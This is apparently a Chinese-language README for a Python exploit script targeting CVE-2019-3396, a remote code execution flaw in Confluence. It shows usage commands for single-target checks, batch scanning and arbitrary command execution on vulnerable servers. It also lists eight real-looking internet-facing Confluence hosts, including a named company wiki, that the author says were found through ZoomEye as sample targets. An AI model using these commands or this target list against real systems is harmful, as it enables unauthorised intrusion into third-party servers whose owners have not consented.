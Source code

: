 # CVE-2019-3396
Confluence RCE漏洞检测脚本
使用方法：

【1】单url检测，url格式请看示例

```shell
python Confluence_rce_cve-2019-3396.py http://192.168.246.131:8090
```

![](http://bmob-cdn-22571.b0.upaiyun.com/2019/04/17/8b29c7b840bd9d0180cd22357ac3c0e4.png)

【2】批量检测，url格式请看示例

从zoomeye上找的前8个confluence的网站，保存在本地

```
http://107.198.101.46:8090
https://100.26.183.111:8443
http://76.94.243.179:9443
http://107.190.131.234:8090
http://107.23.65.244:8090
http://107.213.10.237:8090
http://107.190.131.237:8090
https://wiki.glooko.com
```

运行命令:

```shell
python Confluence_rce_cve-2019-3396.py -f confluence.txt
```

![](http://bmob-cdn-22571.b0.upaiyun.com/2019/04/17/7e22e7774039cc138062789172fb407f.png)

批量检测，最后会输出有漏洞的域名，并且会将输出默认保存在`confluence_output.txt`文件，也可以通过参数`-o output_file`来指定输出文件位置。

【3】rce

在通过第一步poc_check 之后，可以调用rce函数来执行命令：

```shell
python Confluence_rce_cve-2019-3396.py http://192.168.246.131:8090 --command "ls -l"
```

![](http://bmob-cdn-22571.b0.upaiyun.com/2019/04/17/c9aac2444020291d803a3973085c69b4.png)
